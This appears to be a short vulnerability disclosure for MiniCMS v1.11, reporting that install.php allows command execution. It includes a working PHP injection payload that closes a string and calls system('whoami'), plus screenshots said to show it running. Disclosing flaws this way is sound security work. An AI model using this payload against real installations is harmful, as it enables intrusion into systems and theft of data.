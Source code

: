 #### BUG_AUTHOR:acmglz
# MiniCMS exists command execution
## Download address:
https://github.com/bg5sbk/MiniCMS/releases/tag/v1.11
## Version:V1.11
## Tested on: PHP, Apache, MySQL
## Affected Page:
install.php

Attackers can exploit command execution vulnerabilities to obtain sensitive information about systems and applications, including passwords, user accounts, databases, and more

## Proof of vulnerability:
## Payload：

payload

```
)');system('whoami');//
```

## Trigger popup：
![image](https://github.com/user-attachments/assets/0b5aed9f-68ca-4a69-bd92-cd1fda926b6f)


After installation, you can view that the command is successfully executed

![image](https://github.com/user-attachments/assets/9bfc7285-54a4-4bbd-90e0-1cd05111dc2f)

